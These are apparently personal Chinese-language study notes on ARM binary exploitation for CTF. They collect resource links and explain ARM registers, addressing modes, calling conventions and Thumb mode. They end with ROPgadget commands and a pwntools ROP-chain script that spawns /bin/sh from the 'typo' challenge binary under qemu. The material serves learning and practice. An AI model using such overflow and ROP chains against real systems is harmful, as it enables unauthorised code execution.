





[ARM架构下的 Pwn 的一般解决思路 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/199112)
[ARM PWN入门 \| Clang裁缝店 (xuanxuanblingbling.github.io)](https://xuanxuanblingbling.github.io/ctf/pwn/2020/02/26/arm/)
[arm pwn入门 \| blingbling's blog (blingblingxuanxuan.github.io)](https://blingblingxuanxuan.github.io/2021/01/27/arm-pwn-start/)
[一步一步学ROP之Android ARM 32位篇 - 蒸米 (wooyun.js.org)](https://wooyun.js.org/drops/%E4%B8%80%E6%AD%A5%E4%B8%80%E6%AD%A5%E5%AD%A6ROP%E4%B9%8BAndroid%20ARM%2032%E4%BD%8D%E7%AF%87.html)
另外有一个实验室研究ARM看起来很厉害而且很开放：[Azeria Labs (azeria-labs.com)](https://azeria-labs.com/)
ARM的题目：
- <https://github.com/bkerler/exploit_me>
- <https://www.root-me.org/en/Challenges/App-System/ELF-ARM-Heap-Overflow>
ARM架构版本： <https://en.Wikipedia.org/wiki/List_of_ARM_microarchitectures>
ARM参考手册： <http://infocenter.arm.com/help/topic/com.arm.doc.dui0068b/index.html>
ARM汇编工具： <https://www.gnu.org/software/binutils>
学习网站： <https://azeria-labs.com> （树莓派+qemu）
练习题： <https://github.com/azeria-labs/ARM-challenges>
<https://github.com/xairy/easy-linux-pwn/>
电子书：《The Definite Guide to ARM Exploitation》

strong arm和arm又有啥关系......
# 汇编
## 寄存器 
<table>
<colgroup>
<col style="width: 18%" />
<col style="width: 13%" />
<col style="width: 68%" />
</colgroup>
<thead>
<tr class="header">
<th><strong>ARM架构 寄存器名</strong></th>
<th><strong>寄存器描述</strong></th>
<th><strong>介绍</strong></th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>R0~R3</td>
<td>通用寄存器</td>
<td>R0≈EAX，传参 ，不会被保存</td>
</tr>
<tr class="even">
<td>R4~R110</td>
<td>通用寄存器</td>
<td>
保存局部变量

R7存储系统调用号
</td>
</tr>
<tr class="odd">
<td>R11(FP)</td>
<td>栈帧指针</td>
<td>EBP</td>
</tr>
<tr class="even">
<td>R12(IP)</td>
<td>内部程序调用</td>
<td>过程调用中间临时寄存器</td>
</tr>
<tr class="odd">
<td>R13(SP)</td>
<td>堆栈指针</td>
<td>ESP</td>
</tr>
<tr class="even">
<td>R14(LP)</td>
<td>链接寄存器</td>
<td>保存子程序的返回地址。</td>
</tr>
<tr class="odd">
<td>R15(PC)</td>
<td>程序计数器</td>
<td>EIP。在程序执行中，<strong>ARM模式下的PC存储着当前指令加8(两条ARM指令后)的位置，Thumb(v1)模式下的PC存储着当前指令加4(两条Thumb指令后)的位置。</strong></td>
</tr>
<tr class="even">
<td>CPSR</td>
<td>程序状态寄存器</td>
<td>EFLAGS</td>
</tr>
</tbody>
</table>

## 
## 操作数
访址 \[R0\] \[pc,#12\]=pc+12 \[Ri, Rj, LSL#2\]=Ri+(Rj\<\<2)

LDR，LDRB，LDRSB，LDRH，LDRSW，STR，STRB，STRH

⚠️：此处R – Register(寄存器)、RB – Byte(字节-8bit)、SB – Signed Byte(有符号字节)、RH – Half Word(半字-16bit)、SW- Signed Word(带符号字-32bit)。
## 指令

指令格式 \<Opcode\>{\<Cond\>}\<S\> \<Rd\>, \<Rn\> {,\<Opcode2\>}

LDR 和 STR

str r2, \[r1, r2, LSL#2\] @ 取址模式：基于偏移量。R2寄存器中的值0x3被存放到R1寄存器的值加(左移两位后的R2寄存器的值)所指向地址处。R1寄存器不会被修改。  
str r2, \[r1, r2, LSL#2\]! @ 取址模式：基于索引前置修改。R2寄存器中的值0x3被存放到R1寄存器的值加(左移两位后的R2寄存器的值)所指向地址处，之后R1寄存器中的值被更新,也就R1 = R1 + R2\<\<2。  
ldr r3, \[r1\], r2, LSL#2 @ 取址模式：基于索引后置修改。R3寄存器中的值是从R1寄存器的值所指向的地址中加载的，加载之后R1寄存器中的值被更新也就是R1 = R1 + R2\<\<2。

*来自 \<<https://www.anquanke.com/post/id/199112>\>*

运算

ADD Ra, Ra, Rj, LSL \#2 ; a += (j \<\< 2)

条件执行

跳转 BL：将（PC+4)保存到LR ； BX reg （换到Thumb？

堆栈 STMFD压栈（前面的在低地址） 和 LDMFD出栈

SWI/SVC 系统调用
## 栈帧

怎么跟下面的都不一样。。。。

传参（待验证）

32位：r0\~r3，第4个参数在sp，第5个在sp + 4 ......

64位：x0\~x7，第8个参数在sp，第9个在sp + 8 ......

保存现场 prologue

恢复现场 epilogue

返回值
1.  结果为一个32位整数时，可以通过寄存器R0返回
2.  结果为一个64位整数时，可以通过寄存器R0和R1返回
3.  结果为一个浮点数时，可以通过浮点运算部件的寄存器f0、d0或s0来返回
4.  结果为复合型浮点数（如复数）时，可以通过寄存器f0～fn或d0～dn来返回
5.  对于位数更多的结果，需要通过内存来传递。
# Thumb
[(45条消息) 第七章 ARM 反汇编基础（六）（Thumb 汇编指令集）\_zlmm741的博客-CSDN博客_thumb汇编](https://blog.csdn.net/zlmm741/article/details/105209734)

Thumb-1（16位指令）：在ARMv6和更早的体系结构中使用

Thumb-2（16位和32位指令）：通过添加更多指令并使它们的宽度为16位或32位（ARMv6T2，ARMv7）来扩展Thumb-1

ThumbEE：包括一些针对动态生成的代码的更改和添加
## 和ARM的区别
## 指令
## Thumb和ARM状态切换 BX
## shellcode
# shellcode
# rop
## svc系统调用
### 搜索gadget 
ROPgadget --binary 'main' --only 'pop\|ret'

ROPgadget --binary 'main' --string '/bin/sh'

ROPgadget --binary 'main' --only 'svc' --thumb

### 溢出篡改返回地址
栈帧结构如下：

fp lr

-0x4 fp

-0x8 r4

-0x70 overflow

恢复现场：

SUB SP, FP, \#8

POP {R4,FP,PC}

所以可以构造 b'a'\*0x70+p32(addr) 篡改pc
### 布置rop，配置好参数，blx调用svc
from pwn import \*

context(log_level='debug')

\#io = process(\['qemu-arm',"-g","1234",'./typo'\])

io = process(\['qemu-arm','./typo'\])

io.sendlineafter("quit\n","")

payload = 'a'\*112

payload += p32(0x00020904) \# pop {r0, r4, pc}

payload += p32(0x0006C384) \# /bin/sh

payload += p32(0)

payload += p32(0x00014068) \# pop {r7, pc}

payload += p32(0)

payload += p32(0x00008160) \# pop {r3, pc}

payload += p32(0x00014a70) \# pop {r3, r4, r7, pc}

payload += p32(0x00033aa4) \# mov r1, r7; blx r3

payload += p32(0x000482fc) \# svc \#0

payload += p32(0)

payload += p32(0xb)

payload += p32(0x0003338c) \# mov r2, r4; blx r3;

io.sendline(payload)

io.interactive()
## ret2csu

